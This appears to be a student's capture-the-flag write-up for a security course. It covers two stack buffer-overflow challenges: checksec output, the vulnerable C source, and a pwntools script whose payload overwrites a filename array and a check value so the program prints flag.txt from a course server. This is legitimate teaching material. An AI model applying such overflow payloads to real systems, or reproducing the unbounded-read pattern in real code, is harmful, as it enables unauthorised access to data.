



# **Week #5**

## **CTF**

### **Task 1**

#### **Checksec**

- No address randomization
- Regions in the memory with RWX permissions
- No cannaries in the stack
- Architecture is x86
- Stack has execute permissions (NX -no execute- disabled)

#### **Program analysis**

- No check for overflows
- File opened is saved in an array which is exactly above buffer
- Buffer value is read from input
- Flag is saved in another file called flag.txt

    #include <stdio.h>
    #include <stdlib.h>

    int main() {
        char meme_file[8] = "mem.txt\0";
        char buffer[20];

        printf("Try to unlock the flag.\n");
        printf("Show me what you got:");
        fflush(stdout);
        scanf("%28s", &buffer);

        printf("Echo %s\n", buffer);

        printf("I like what you got!\n");

        FILE *fd = fopen(meme_file,"r");

        while(1){
            if(fd != NULL && fgets(buffer, 20, fd) != NULL) {
                printf("%s", buffer);
            } else {
                break;
            }
        }

        fflush(stdout);

        return 0;
    }

#### **Attack**

- Cause a buffer overflow on 'buffer' by writing more than 20 bytes (space it has initialized)
- After 20 bytes/chars, write what you want the array containing the name of file to be open to have (write flag.txt)
- This way the file that will be open is flag.txt

### **Task 2**

#### **Checksec**

- Checksec gives the same Information

#### **Program analysis**

- The program implemented a minor defense. The new version has another buffer in between the buffer we overflow and the target one
- The value of this one is checked to see if it was adulterated

    #include <stdio.h>
    #include <stdlib.h>

    int main() {
        char meme_file[8] = "mem.txt\0";
        char val[4] = "\xef\xbe\xad\xde";
        char buffer[20];

        printf("Try to unlock the flag.\n");
        printf("Show me what you got:");
        fflush(stdout);
        scanf("%32s", &buffer);
        if(*(long*)val == 0xfefc2122) {
            printf("I like what you got!\n");

            FILE *fd = fopen(meme_file,"r");

            while(1){
                if(fd != NULL && fgets(buffer, 20, fd) != NULL) {
                    printf("%s", buffer);
                } else {
                    break;
                }
            }
        } else {
            printf("You gave me this %s and the value was %p. Disqualified!\n", meme_file, *(long*)val);
        }

        fflush(stdout);

        return 0;
    }

### **Attack**
- To bypass this all we need to do is write the correct sequence of characters in this buffer, which we did by editing the python exploit file

    #!/usr/bin/python3
    from pwn import *

    DEBUG = False

    if DEBUG:
        r = process('./program')
    else:
        r = remote('ctf-fsi.fe.up.pt', 4000)

    r.recvuntil(b":")
    r.sendline(b"aaaaaaaaaaaaaaaaaaaa\x22\x21\xfc\xfeflag.txt")
    r.interactive()
